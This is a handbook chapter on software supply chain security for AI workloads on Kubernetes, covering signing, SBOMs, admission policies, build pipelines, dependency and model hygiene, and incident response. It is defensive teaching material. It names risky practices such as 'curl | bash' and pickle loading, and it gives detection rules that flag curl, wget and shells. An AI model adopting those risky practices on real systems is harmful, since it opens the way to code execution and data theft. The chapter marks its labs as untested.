


# 5.27 Software supply chain security

| | |
|---|---|
| Level | Advanced |
| Priority tier | 1 |
| Lab venue | Docker/BuildKit, GitHub Actions or GitLab CI (OIDC), registry (Harbor/GHCR/Artifact Registry), `cosign`, `syft`, `grype`/`trivy`, Kyverno or Sigstore policy-controller, `slsa-verifier` |
| Part | Part 5: Kubernetes |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

AI stacks have one of the widest and least-audited supply chains in computing: multi-gigabyte base images from vendors, thousands of Python packages (PyTorch, CUDA wheels, custom CUDA extensions compiled at install time), pretrained models downloaded from hubs as pickles, datasets scraped from the Internet, build scripts that `curl | bash`, GPU drivers and kernel modules that run with kernel privileges, and notebooks that `pip install` arbitrary things. A compromised dependency in a training image can exfiltrate proprietary data and model weights or tamper with the model itself; a poisoned model file can execute code on load; a malicious package in a CI environment can steal cloud credentials. Kubernetes gives you the control points (admission, network policy, runtime isolation); this chapter shows how to combine them with build-time and registry-time controls into a verifiable chain from source to production, including the AI-specific parts (models, datasets, GPU stack).

## Prerequisites and outcomes

Needs 5.1, 5.16, 5.21 and CI/CD basics (4.2). After this chapter you can:

- Describe the supply-chain threat model (source, build, dependencies, artefacts, registry, deploy, runtime) with real attack classes (typosquatting, dependency confusion, compromised maintainers/build systems, poisoned base images, malicious updates, stolen CI credentials, tampered artefacts, unsigned models) and map controls to each.
- Explain SLSA levels, in-toto attestations, provenance and how to generate and verify them.
- Produce and consume SBOMs (SPDX, CycloneDX); scan images and dependencies; manage vulnerability triage with VEX and exceptions.
- Sign and verify images, SBOMs and attestations with Sigstore/cosign (keyless OIDC and key-based), publish transparency log entries, and enforce verification at admission in Kubernetes.
- Harden builds (hermetic, ephemeral, least-privilege runners, pinned inputs, reproducibility) and registries (immutability, scanning, replication, access control).
- Secure Python/ML dependency chains (lockfiles with hashes, private indexes, `--require-hashes`, wheel-only, pinned CUDA stacks), and model/dataset provenance (safetensors, signed model artefacts, hashes, model scanning).
- Add runtime protections (read-only rootfs, seccomp, egress control, detection) and prepare incident response (blast-radius analysis via SBOMs, key/CI credential rotation, image revocation).

## 1. Threat model



Representative incidents and lessons (class-level): the SolarWinds build compromise (build system integrity), Codecov bash uploader (modified script harvesting CI secrets), `event-stream`/`ua-parser-js` (maintainer takeover), dependency confusion (internal package names claimed on public indexes), PyPI typosquats of ML libraries, malicious pickle models on public hubs, the `xz` backdoor (long-game maintainer social engineering), compromised GitHub Actions or Docker Hub images, leaked CI tokens used to push images. AI-specific: pickled checkpoints executing code on `torch.load`, compromised conda/pip mirrors, notebook environments with ad-hoc installs, third-party CUDA extension builds, vulnerable inference servers exposed to the network, tampered datasets (poisoning) altering model behaviour.

Security objectives: **integrity** (what runs is exactly what was built from reviewed source), **provenance** (who/what/how built it), **transparency** (what it contains), **least privilege** (builders and deployers have minimal rights), **detectability** (tampering causes verification failure), **recoverability** (you can find and remove affected artefacts quickly).

## 2. Frameworks and standards

- **SLSA (Supply-chain Levels for Software Artifacts)**: tracks (Build L1–L3, with source and dependency tracks evolving). Build L1: provenance exists; L2: hosted build platform signs provenance; L3: hardened build platform (isolated builds, non-falsifiable provenance, no secret exposure to user steps). Use the **SLSA GitHub generator** / GitLab / Google Cloud Build provenance, `slsa-verifier` to validate provenance before deploy.
- **in-toto attestations**: signed statements about artefacts (provenance, SBOM, vulnerability scan, test results, review/approval) in DSSE envelopes with predicates (`https://slsa.dev/provenance/v1`, `https://spdx.dev/Document`, `https://cyclonedx.org/bom`, `https://cosign.sigstore.dev/attestation/vuln/v1`).
- **Sigstore**: **cosign** (sign/verify OCI artefacts, store signatures as OCI referrers/tags), **Fulcio** (short-lived certs bound to OIDC identities: "keyless"), **Rekor** (public transparency log), **policy-controller** (admission). **Notary v2 / notation** (X.509, enterprise PKI) is the alternative; **OCI 1.1 referrers API** attaches signatures/SBOMs/attestations to images.
- **NIST SSDF (SP 800-218)**, **CISA/ NSA guidance**, **CNCF supply chain best practices**, **OpenSSF Scorecard**, **CIS benchmarks**, **US EO 14028 SBOM requirements**, **EU Cyber Resilience Act** (SBOMs/vulnerability handling) drive compliance.
- **Frameworks for AI**: model signing (OpenSSF **model-signing**, Sigstore for models), SBOM extensions for ML (CycloneDX ML-BOM, SPDX AI profile), NIST AI RMF, MLCommons/Hugging Face safetensors guidance.

## 3. Source and build

### Source integrity

Protected branches, required reviews and CODEOWNERS (4.1), signed commits/tags (gitsign for keyless signing), MFA/passkeys for maintainers, secret scanning and push protection, dependency update bots with review, restricted workflow permissions, branch protection for IaC and Dockerfiles, 2-person review for build config. Monitor repository settings drift (OpenSSF Scorecard, `allstar`).

### Build integrity

1. **Build in CI, never on developer laptops** for released artefacts; ephemeral, isolated builders (one job per VM/container, destroyed after); no long-lived credentials on runners; OIDC federation to registries/clouds (4.2); least-privilege tokens (push only to the target repository); separate build and deploy credentials.
2. **Hermetic and pinned inputs**: pin base images by digest, OS packages by version (and snapshot repositories), language dependencies by lockfile with hashes, tools by checksum; vendor or mirror dependencies through an internal proxy (Artifactory/Nexus/devpi/Harbor proxy cache) so builds do not hit the live Internet; deny network egress during the compile phase where possible (BuildKit `--network=none` for steps after dependency fetch; Bazel/Nix hermetic builds).
3. **Reproducibility**: same inputs → same bits (`SOURCE_DATE_EPOCH`, sorted tar, no timestamps, deterministic ordering, `--build-arg` pins); verify with independent rebuilds (reproducible-builds tooling, `diffoscope`); not always achievable for Python/CUDA stacks but base image + application layers can be.
4. **Minimal, trusted bases**: distroless/Chainguard/Wolfi, vendor-curated bases (NGC), your own hardened golden bases rebuilt nightly; avoid arbitrary community images; verify base signatures; track base image updates (Renovate) and rebuild dependents.
5. **Build secrets** only via BuildKit secret mounts (5.1), never baked; **no `curl | bash`** — download with checksum/signature verification.
6. **Provenance generation**: `docker buildx build --provenance=mode=max --sbom=true`, or SLSA generators, producing attestations attached to the image digest.
7. **Isolate CI from production**: separate accounts/projects; build agents cannot reach production networks; deploy via GitOps pull (4.26) so CI holds no cluster credentials.
8. **Protect the CI platform**: pinned and reviewed third-party actions/plugins (by SHA), restricted `pull_request_target`, no secrets for forks, workflow file protection (CODEOWNERS), audit logs, runner hardening, ephemeral self-hosted runners with network egress filtering; treat the CI system as tier-0.

### The "Golden Base Image Antipattern"

In traditional virtual-machine operations, security teams often mandate a single pre-approved corporate OS image (for example, a hardened CentOS base) for every workload. When organizations carry that rule into containers by requiring teams to take third-party or vendor container images (such as upstream databases, ingress proxies, or NVIDIA NGC bases) and rebase or repackage them onto the single corporate OS base image, they fall into what *Production Kubernetes* (Chapter 15) calls **the Golden Base Images Antipattern**:

1. **Broken upstream dependencies and testing**: upstream and vendor images are built and tested against specific libc, runtime, and library versions; rebasing them onto a different corporate OS breaks assumptions and forces teams to reinvent upstream packaging work.
2. **Unsustainable maintenance sprawl and worse security**: the internal platform team becomes responsible for rebuilding and maintaining forked copies of dozens or hundreds of upstream images. Because manual rebasing is slow and fragile, updates happen infrequently, leaving the fleet on older, more vulnerable software than if they tracked upstream releases.
3. **Better alternative — codify requirements into pipeline scanning and quarantine registries**: while maintaining a small set of curated internal base images (such as `gcr.io/distroless/base` running as `USER nonroot:nonroot`, or pinned `alpine:3.12` packages like `RUN ["apk", "add", "imagemagick=7.0.10.25-r0"]` in the book's examples) works well for your own first-party applications, third-party/vendor images should instead pass through an automated **quarantine and promotion pipeline** (Section 5) that scans for CVEs, checks non-root user permissions, signs passing images, and pushes them to an approved internal registry.

### In-cluster cloud-native build pipelines with Tekton (`Task` and `Pipeline`)

When running container image builds inside a Kubernetes cluster without mounting the host Docker socket, cloud-native CI tools such as **Tekton** model build steps as Kubernetes Custom Resources (`Task`, `Pipeline`, `TaskRun`, `PipelineRun`) that execute in Pods using rootless builders like Kaniko or Cloud Native Buildpacks (`pack`). In the book's (*Production Kubernetes*, Chapter 15) examples (untested here), a reusable `git-clone` `Task` checks out source code into a shared `Workspace` and records the commit SHA in `$(results.commit.path)`, and a `buildpacks-phases` `Task` runs `/cnb/lifecycle/builder` to produce an OCI image that a `Pipeline` chains together from checkout to registry push:

```yaml
apiVersion: tekton.dev/v1beta1
kind: Task
metadata:
  name: git-clone
spec:
  workspaces:
    - name: output
      description: "The git repo will be cloned onto the volume backing this workspace"
  params:
    - name: url
      description: git url to clone
      type: string
    - name: revision
      description: git revision to checkout (branch, tag, sha, ref…)
      type: string
      default: master
  results:
    - name: commit
      description: The precise commit SHA that was fetched by this Task
  steps:
    - name: clone
      image: "gcr.io/tekton-releases/github.com/tektoncd/pipeline/cmd/git-init:v0.12.1"
      script: |
        CHECKOUT_DIR="$(workspaces.output.path)/$(params.subdirectory)"
        /ko-app/git-init \
          -url "$(params.url)" \
          -revision "$(params.revision)" \
          -path "$CHECKOUT_DIR"
        cd "$CHECKOUT_DIR"
        RESULT_SHA="$(git rev-parse HEAD | tr -d '\n')"
        echo -n "$RESULT_SHA" > $(results.commit.path)
---
apiVersion: tekton.dev/v1beta1
kind: Task
metadata:
  name: buildpacks-phases
spec:
  params:
    - name: BUILDER_IMAGE
      description: "The image on which builds will run (must include lifecycle and compatible buildpacks)."
    - name: PLATFORM_DIR
      description: The name of the platform directory.
      default: empty-dir
    - name: SOURCE_SUBPATH
      description: "A subpath within the `source` input where the source to build is located."
      default: ""
  resources:
    outputs:
      - name: image
        type: image
  workspaces:
    - name: source
  steps:
    - name: build
      image: $(params.BUILDER_IMAGE)
      imagePullPolicy: Always
      command: ["/cnb/lifecycle/builder"]
      args:
        - "-app=$(workspaces.source.path)/$(params.SOURCE_SUBPATH)"
        - "-layers=/layers"
        - "-group=/layers/group.toml"
        - "-plan=/layers/plan.toml"
      volumeMounts:
        - name: layers-dir
          mountPath: /layers
        - name: $(params.PLATFORM_DIR)
          mountPath: /platform
        - name: empty-dir
          mountPath: /tekton/home
---
apiVersion: tekton.dev/v1beta1
kind: Pipeline
metadata:
  name: clone-and-buildpack
spec:
  workspaces:
    - name: shared-workspace
  params:
    - name: git-url
      type: string
    - name: builder-image
      type: string
  tasks:
    - name: fetch-source
      taskRef:
        name: git-clone
      workspaces:
        - name: output
          workspace: shared-workspace
      params:
        - name: url
          value: $(params.git-url)
    - name: build-image
      runAfter: ["fetch-source"]
      taskRef:
        name: buildpacks-phases
      workspaces:
        - name: source
          workspace: shared-workspace
      params:
        - name: BUILDER_IMAGE
          value: $(params.builder-image)
```

### Cloud Native Buildpacks: no Dockerfile needed

Writing and maintaining a Dockerfile for every service takes developer time. Buildpacks take a different route. They read the source code and decide how to build it, so developers never write a Dockerfile. Heroku and Cloud Foundry have used buildpacks for years. Cloud Native Buildpacks (CNB) brings the idea to containers. It packages the app into an OCI image that runs on Kubernetes.

CNB inspects the source and runs the matching buildpacks. The Go buildpack runs when Go files are present. The Maven buildpack runs when a `pom.xml` file is present. Developers start the process with a CLI called `pack`, and the detection happens behind the scenes. Each buildpack has a narrow scope, so the images it produces tend to follow best practices.

Platform teams can also write custom buildpacks. Those can enforce policy, meet compliance rules and standardize the images that run on the platform. The value of this grows with the size of the organization, because developers want to build features rather than package containers.

### Who should own image builds

Early on, developers often write their own Dockerfiles. At scale, that approach creates two problems. Developers lose time they should spend on their product. The images also vary widely, with little standardization. Many organizations therefore move build work to operations and platform teams. Those teams build pipelines that take a code repository as input and return a container image.

Workshops and hands-on help with Dockerfiles are a reasonable first step. They do not scale well, though, because the ratio of development teams to platform staff is usually high.

### Triggering builds from commits

Builds should start when code lands in the central repository. Local builds with Docker are fine for early work. Pipeline tools either poll the repositories for changes or receive a webhook from version control. The book's examples use Tekton, a pipeline tool built for Kubernetes. Tekton models each component as a custom resource, and its catalog includes common tasks such as cloning a Git repository.

A pipeline can grow from there. It can add tests, linting, static analysis and a signing step. Tasks can also run other build tools, such as Kaniko or BuildKit, when you do not use buildpacks.

### Image tags and metadata

Git hashes make good tags during development. They are not easy to read, but they trace each image back to its commit. As the pipeline matures, add descriptive version tags such as SemVer. Those tags show at a glance which versions run in each environment. Use immutable tags, which most registries support, so nobody overwrites an existing tag.

Labels with the image owner's contact details and build information help later reporting. Policy tools can also use labels, for example to allow image access only for certain labels.

### Push-based deploys and their limits

Once builds are automated, the pipeline can deploy as well. The simplest approach is a final step that reads the new tag and runs `kubectl set image`. Many tutorials show this. A better approach edits the Deployment's YAML in version control. The pipeline changes the tag with `sed` or a similar tool, commits the change, and then runs `kubectl apply -f` over the updated manifests. Your YAML then stays close to the source of truth for the cluster.

The push model has limits. Promoting releases across environments and clusters needs an inventory of targets and credentials for each cluster. If a pipeline is interrupted, someone must restart or reconcile it. Monitor and alert on deployment pipelines as well, so failures do not go unnoticed.

## 4. SBOMs and vulnerability management

### SBOM

A **Software Bill of Materials** lists components (packages, versions, licences, hashes, supplier, relationships). Formats: **SPDX** (ISO standard), **CycloneDX** (OWASP; VEX and ML-BOM support). Generate at build with **Syft** (`syft packages registry/app@sha256:... -o spdx-json`), BuildKit `--sbom`, Trivy (`trivy image --format cyclonedx`), language tools (`pip-audit`, `cyclonedx-py`), `docker sbom`. Attach as attestation (`cosign attest --type spdxjson --predicate sbom.json image@digest`) and store in the registry (referrers). Use SBOMs to answer "which running workloads contain log4j / this torch version / this OpenSSL?" instantly: ingest into a database (Dependency-Track, GUAC, Grype with SBOM input) and cross-reference with deployed digests from the cluster (`kubectl get pods -A -o jsonpath` images → digests).

### Scanning

- **Image scanners**: Trivy, Grype, Clair, Snyk, Docker Scout, cloud-native (ECR/Artifact Registry/ACR scanning), Anchore. Scan OS packages and language ecosystems (pip, npm, Go modules, Java); note limitations: wheels with bundled libs (PyTorch bundles CUDA libs), statically linked binaries, vendored code, and compiled CUDA extensions are hard to attribute; false positives from distro backports.
- **Where to scan**: PR time (Dockerfile lint `hadolint`, dependency review), build time (fail on critical/high with fixes available), registry (continuous rescans as new CVEs emerge), cluster (Trivy Operator / Kubescape scanning running workloads), nodes (host packages, kernel).
- **Triage with context**: reachability, exploitability (EPSS, CISA KEV), whether the component is loaded, mitigations; record decisions with **VEX** (Vulnerability Exploitability eXchange) statements (OpenVEX/CSAF/CycloneDX VEX) so scanners suppress not-affected findings with justification; time-bound exceptions with owners.
- **Patch SLAs**: critical (hours to days), high (days to weeks), with automated rebuild pipelines for bases; image freshness policy (max age) enforced by admission or reporting.
- **Config and IaC scanning**: Trivy config/Checkov/Kubescape for manifests and Terraform (4.2, 4.23); secrets scanning (gitleaks, trufflehog) on repos, images, and registries.
- **GPU stack CVEs**: NVIDIA publishes security bulletins for drivers, Container Toolkit, GPU Operator, Triton, NeMo, DCGM; track and patch (container toolkit escape CVEs have occurred: update promptly and restrict `privileged`).

### Scanning over time without causing outages

Scanning at pull time is a useful start. But images already in your environment can gain new CVEs. Schedule rescans, and plan how you will update or replace the affected images. Automatic patching is tempting, yet an updated image can be incompatible and break a running app. Automated updates can also bypass your change process, which makes them hard to audit.

Blocking pulls has a cost too. Suppose a core application's image gets a new CVE and pulls are blocked. Pods scheduled to new nodes then cannot start. That trade-off pits security against availability, so write down the decision. Most teams prefer alerts. A registry can call a webhook when a scan completes, or expose metrics that you can scrape and alert on. Once you know the impact, decide whether and when to patch. Then run the patch through your normal pipeline, so the change stays transparent and auditable.

## 5. Signing and verification

### Cosign basics

```bash
# Keyless signing in CI (GitHub Actions with id-token: write)
cosign sign --yes registry.example.com/ml/trainer@sha256:abc...            # signs digest using Fulcio cert bound to the workflow identity; entry in Rekor
cosign attest --yes --type slsaprovenance --predicate provenance.json registry.example.com/ml/trainer@sha256:abc...
cosign attest --yes --type spdxjson --predicate sbom.spdx.json registry.example.com/ml/trainer@sha256:abc...
# Verify
cosign verify registry.example.com/ml/trainer@sha256:abc... \
  --certificate-identity-regexp 'https://github.com/acme/.+/.github/workflows/release.yml@refs/tags/v.*' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com
cosign verify-attestation --type slsaprovenance --certificate-identity-regexp ... --certificate-oidc-issuer ... image@digest
cosign tree image@digest                                                  # signatures/attestations attached
# Key-based (air-gapped or KMS)
cosign generate-key-pair --kms gcpkms://projects/p/locations/global/keyRings/r/cryptoKeys/k
cosign sign --key gcpkms://... image@digest ; cosign verify --key gcpkms://.../versions/1 image@digest
```

Principles: **sign digests, not tags**; define **who is allowed to sign** (identity = CI workflow path + ref, not "any signature"); keep a **private Sigstore** (Fulcio/Rekor/TUF) or key-based/KMS signing for air-gapped environments; protect signing keys in KMS/HSM; set certificate-identity policies tightly; record verification policy as code; sign **all** artefacts: images, Helm charts (OCI), SBOMs, attestations, Terraform modules, models.

As *Production Kubernetes* Chapter 15 (*Software Supply Chain*) explains, early container signing with **Notary v1 (Docker Content Trust / TUF)** had two major operational pain points that modern **Sigstore (`cosign`)** and **Notary v2 (`notation`)** solved:
1. **The Globally Unique Name (`GUN`) registry-URL coupling problem (`PK` Chapter 15):** Notary v1 bound each signature to a **Globally Unique Name (`GUN`)** that included the **registry hostname URL** (`registry-a.example.com/team/app`). Whenever an enterprise replicated or cached that exact same image digest across regional registries, edge pull-through caches, or air-gapped mirrors (`registry-b.internal/team/app`), Notary v1 signatures broke because the registry URL changed. By signing the **content-addressable image manifest digest (`@sha256:...`)** and storing signatures as OCI 1.1 artifacts/referrers inside the registry itself, `cosign` and `notation` allow signatures and SBOM attestations to travel seamlessly across mirrors and regional caches.
2. **Push-Based vs. Pull-Based (GitOps) Deployments and Progressive Traffic Shifting (`Flagger`, `PK` Chapter 15):** After an image passes build, CVE scanning (`Clair` / `Trivy`), signing, and promotion to the `approved` registry, `PK` Chapter 15 recommends **pull-based GitOps controllers (`Flux` / `Argo CD`)** over push-based CI `kubectl apply` scripts (so CI never holds cluster-admin credentials), paired with **progressive delivery controllers (`Flagger` or `Argo Rollouts`)** that shift traffic gradually (`Canary`, `Blue/Green`, or `A/B Testing`) via Ingress/Gateway API or Service Mesh weights and automatically abort/roll back if error rates or latency degrade.

### Signing at each stage of the pipeline

A signature is a cryptographic proof. The publisher hashes the image and ties that hash to their identity. Anyone can check the signed hash against the publisher's public key. The useful part is that one image can be signed many times. You might sign after tests pass and again after a release team approves it. At deploy time, you require the signatures you specify. That proves the image promoted to production is exactly the image that passed each stage.

Notary is the main project in this area. Docker originally built it on The Update Framework (TUF), a system for distributing software updates securely. Teams have adopted signing slowly, for three reasons:

- Notary has several components, including a server and multiple databases. Signing and verification sit on the deployment's critical path, so Notary needs high availability.
- Notary names each image with a Globally Unique Name (GUN) that includes the registry URL. Signatures then cannot move to copies in caches or edge registries.
- Notary and TUF use different key pairs, each with its own security needs. Rotating those keys after a breach is hard.

At the time the book was written, a second version of Notary was in development. It aimed to simplify key management and to bundle signatures with the OCI images themselves. Several projects already run admission webhooks that check for signatures before a cluster runs an image.

### Admission-time enforcement in Kubernetes

Enforce verification where workloads are admitted (5.21):

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata: { name: require-signed-images-and-provenance }
spec:
  validationFailureAction: Enforce
  webhookTimeoutSeconds: 15
  rules:
    - name: verify-signature
      match: { any: [ { resources: { kinds: [Pod], namespaceSelector: { matchLabels: { env: prod } } } } ] }
      verifyImages:
        - imageReferences: ["registry.example.com/ml/*"]
          mutateDigest: true
          verifyDigest: true
          required: true
          attestors:
            - entries:
                - keyless:
                    issuer: https://token.actions.githubusercontent.com
                    subjectRegExp: "^https://github.com/acme/.+/\\.github/workflows/release\\.yml@refs/tags/v.*$"
                    rekor: { url: https://rekor.sigstore.dev }
          attestations:
            - type: https://slsa.dev/provenance/v1
              attestors: [ { entries: [ { keyless: { issuer: https://token.actions.githubusercontent.com, subjectRegExp: "^https://github.com/acme/.+" } } ] } ]
              conditions:
                - all:
                    - key: "{{ buildDefinition.buildType }}"
                      operator: Equals
                      value: "https://actions.github.io/buildtypes/workflow/v1"
    - name: only-approved-registries
      match: { any: [ { resources: { kinds: [Pod] } } ] }
      validate:
        message: "Images must come from registry.example.com or nvcr.io."
        pattern:
          spec:
            containers:
              - image: "registry.example.com/* | nvcr.io/*"
```

Alternatives: **Sigstore policy-controller** (`ClusterImagePolicy`), **Ratify** (with Gatekeeper, Notation/cosign verifiers), **Connaisseur**, cloud-native **Binary Authorization** (GKE) / **ECR signing with Notation + Kyverno/Gatekeeper** / **Azure Policy for Kubernetes** with Notation. Operational concerns: verification latency (cache results), registry availability dependency (decide fail-open vs fail-closed), exemptions for system namespaces/bootstrap images (mirror them into your registry and sign), rolling out in `Audit` first, handling third-party images (re-sign after your own scanning/mirroring: "image promotion pipeline"), verifying **init containers and ephemeral containers**, and re-verification on Deployment updates.

### Quarantine workflow

Registries can scan images and block pulls, but some images need more checks. Some teams also cannot pull straight from the public internet and must use an internal registry. A multiregistry setup with a quarantine pipeline solves both problems. The flow works like this:

1. Developers request an image through a self-service portal. A ServiceNow form or a Jenkins job works well, and chatbots are gaining popularity.
2. The image is pulled automatically into a quarantine registry.
3. The pipeline runs checks, and it can start environments that pull and verify the image against your criteria.
4. If the checks pass, the image is optionally signed and pushed to an approved registry.
5. The developer hears the result, with the reason if the image was rejected. A chatbot, a ticket or a job update can carry the message.

Combine this flow with admission controllers. Then only signed images, or images from a specific registry, can run on the cluster.

### Image promotion pipeline



Clusters trust only the `approved` repository and your signer; upstream trust decisions are made once, centrally, with evidence.

## 6. Registries and artefact stores

- **Access control**: separate repos for quarantine/dev/prod; push rights only to CI identities; read-only for clusters (pull credentials via workload identity); no shared admin tokens; audit logs.
- **Immutability**: tag immutability for release tags; digest references in manifests; retention to keep deployed digests available; deletion protections; replicated copies for DR.
- **Scanning and policy in the registry** (Harbor policies: block pull of vulnerable images, require signed images), pull-through caches with allow-lists, rate limits and malware/quarantine features.
- **Other artefact types**: Helm charts (OCI), Python packages (private PyPI/devpi/Artifactory with proxy and curation), conda channels, OS package mirrors (snapshots), model registries (MLflow/Hugging Face Hub private, OCI model artefacts via ORAS/KitOps), datasets (versioned buckets with hashes), Terraform modules/providers (mirrors, lock files with hashes, 4.22).
- **Dependency confusion defences**: scoped/private package names, reserved names on public indexes, index priority configuration (`--index-url` only your proxy; `--extra-index-url` is dangerous), namespace claims; artefact curation (allow-list of approved packages/versions), delay new releases ("cooldown") before adoption.

### Registry placement and replication

Put a registry in each failure domain to keep images available. Then decide between one central blob store and a blob store per region, with replication between them. Replication pushes an image to one registry and copies it to the rest of the set. A basic version can run in a pipeline tool, triggered by webhooks on each push.

Registry load grows with the number of developers. When thousands of teams build on every commit, pulls and pushes add up fast. The registry is on the critical path for production and for development, so monitor it as you would any core service.

## 7. Python and ML dependency hygiene

- **Lockfiles with hashes**: `pip-compile --generate-hashes` / `uv pip compile --generate-hashes` / Poetry lock / PDM; install with `pip install --require-hashes -r requirements.txt` (`--no-deps` after a full lock) so any substituted wheel fails.
- **Prefer wheels over sdists** (`--only-binary=:all:`) to avoid running arbitrary `setup.py` at install; for packages that need compilation (custom CUDA ops), build in a dedicated, hermetic, network-restricted stage and ship the wheel from your internal index.
- **Private index as the only source** for CI and production images; mirror vetted public packages; automated scanning (`pip-audit`, OSV scanner, Safety) and licence checks; Renovate/Dependabot with review and a cool-down for fresh releases.
- **Pinned CUDA/PyTorch stacks**: use vendor-published matched wheels/containers (NGC, PyTorch index with CUDA tag); avoid ad-hoc `pip install` in running containers/notebooks; image rebuild instead of mutation; restrict outbound access from training pods to package indexes except via a proxy.
- **Notebook environments**: curated base images with approved libraries; per-user environments in volumes scanned regularly; disallow `pip install` from the Internet in production namespaces (egress policy), allow via proxy with allow-list; log installs.
- **Conda/mamba**: pinned `conda-lock` files, trusted channels (conda-forge with signature verification), avoid mixed pip/conda drift.
- **C/C++/CUDA extensions**: vendor and review; reproducible builds; compile with hardening flags; keep ABI/driver compatibility documented (5.1).
- **Python startup attack surface**: `.pth` files, `sitecustomize`, `PYTHONSTARTUP`; read-only site-packages in production images; remove pip/compilers from runtime images.
- **Inference servers**: patch quickly (public CVEs in popular servers like Ray, vLLM, Triton, Jupyter, MLflow, TorchServe have enabled RCE when exposed); never expose management ports; authenticate; network policies (5.15).

## 8. Model and data supply chain

- **Serialization safety**: Python pickle (`torch.load` default pre-2.6, many `.bin`/`.pt`/`.pkl` checkpoints) executes arbitrary code on load. Use **safetensors** (no code execution, zero-copy), `torch.load(weights_only=True)`, ONNX/TensorRT engines from trusted builds, and avoid `trust_remote_code=True` with unreviewed model repositories (it downloads and runs Python from the model repo). Scan model files (ProtectAI `modelscan`, `fickling`, Hugging Face scanners) as defence in depth, not as proof of safety.
- **Provenance & integrity**: record model source (repo, commit SHA), file hashes (SHA-256), licence, training data lineage, and evaluation results; **sign models** (OpenSSF model-signing with Sigstore; cosign for OCI model artefacts via ORAS/KitOps/ModelPack); verify on download and before serving; store approved models in an internal registry; pin by commit/digest, not "main".
- **Download hygiene**: from allow-listed hubs through a proxy/mirror; checksum verification; no runtime downloads in production pods (pre-stage to PVC/object storage/image volume); deny egress to model hubs from serving namespaces.
- **Datasets**: content-addressed/versioned storage (DVC, lakeFS, object versioning with checksums), access control and audit, validation of external data (schema, outlier and poisoning checks, deduplication, licence/PII scanning), reproducible snapshots for each training run (data hashes in run metadata), separation of raw vs curated zones.
- **Fine-tuning and adapters**: LoRA adapters are small but can alter behaviour; sign and review; restrict who can promote adapters to production serving.
- **Training pipeline integrity**: pipelines as code with reviews; artifact lineage (MLflow, W&B, OpenLineage); reproducible environments (image digest + lockfile + data hash + config + seed = run ID); protect experiment trackers and registries with RBAC; guardrails against tampering with evaluation sets.
- **Output side**: model cards, SBOM/ML-BOM, evaluation attestations (safety/bias/performance gates as signed attestations enforced before promotion), watermark/provenance (C2PA) for generated content where relevant.
- **Secrets in model artefacts**: scan checkpoints/notebooks/logs for credentials; avoid embedding tokens.

## 9. Runtime and detection

Supply-chain controls fail eventually; limit the blast radius (5.15, 5.21):

- **Least privilege at runtime**: non-root, read-only rootfs, drop capabilities, seccomp, no host namespaces, minimal ServiceAccount, no cloud credentials unless workload identity with narrow scopes.
- **Egress control**: default-deny egress with explicit allow-lists (object store, registry mirror, package proxy); blocks callbacks and exfiltration from compromised packages; DNS logging/FQDN policy.
- **Runtime detection**: Falco/Tetragon rules for unexpected process execution (`curl`, `wget`, shells in prod images), writes to unexpected paths, connections to unfamiliar IPs, reading mounted secrets, loading unexpected kernel modules; audit logs for ServiceAccount token use anomalies.
- **Node integrity**: signed/ measured boot where available, immutable node images (4.17), kernel module signing, restricting `privileged`; GPU driver containers/operators verified (signed images).
- **Secrets hygiene**: short-lived credentials, workload identity, rotation, no long-lived keys in images.
- **Honeytokens/canaries** in registries and buckets to detect scanning/theft.

### Limit what a container can do

Scanning finds known flaws, but it cannot find everything. An image can download malicious content after deployment, and a running app can be hijacked. A naive guard is a periodic filesystem scan of running containers, to catch vulnerable binaries that arrive late. A stronger guard limits the actions and behaviors a container can perform. That ends the endless chase of CVEs, and it focuses on the capabilities the app should have. Runtime scanning is a large topic. Look at Falco and the Aqua Security suite as starting points.

## 10. Incident response for supply-chain events

1. **Identify scope** from SBOMs/inventory: which images/digests contain the affected component or came from the compromised pipeline; which clusters/namespaces run them (`kubectl` image digest inventory, GUAC/Dependency-Track queries); which models/datasets were built or touched.
2. **Contain**: block the digests (admission deny list / policy exception removal), scale down or isolate affected workloads, disable affected CI pipelines/tokens, revoke signing identities or add to a revocation/deny list (cosign has no revocation; rely on policy by identity+time, or rotate keys and update policies), quarantine registry repositories.
3. **Eradicate & rebuild**: rotate all credentials the build/runtime could have touched (CI tokens, cloud keys, registry creds, secrets), rebuild from known-good sources and bases with patched dependencies, verify provenance, redeploy progressively; scan nodes for persistence if container escape is suspected.
4. **Investigate**: audit logs (CI, registry, Kubernetes API, cloud), Rekor entries, network egress logs, runtime detections; preserve evidence.
5. **Communicate & learn**: notify stakeholders/customers per policy; blameless review; add detection and controls (e.g., enforce signature policy, cooldown for new dependencies, hermetic builds).
6. **Prepare in peacetime**: maintain an up-to-date inventory, practise "log4shell drills" (find every instance of component X in 1 hour), keep rebuild pipelines healthy, document break-glass procedures.

## 11. Maturity roadmap

| Stage | Capabilities |
|---|---|
| **Baseline** | Private registry; pinned bases/digests; image scanning in CI; no secrets in images; non-root; lockfiles |
| **Managed** | SBOMs per build; continuous registry rescan; hash-pinned Python deps via private index; signed images (key or keyless); admission allow-list of registries; renovation bot with review |
| **Verified** | SLSA L2–3 provenance; admission enforces signature + provenance; image promotion pipeline; VEX-driven triage; hermetic builds; egress allow-lists; signed models |
| **Advanced** | Reproducible builds; policy on source reviews and dependency ages; GUAC/graph-based queries; runtime attestation (confidential computing/attested nodes); continuous verification and automated revocation; supplier attestation requirements |

## 12. Lab

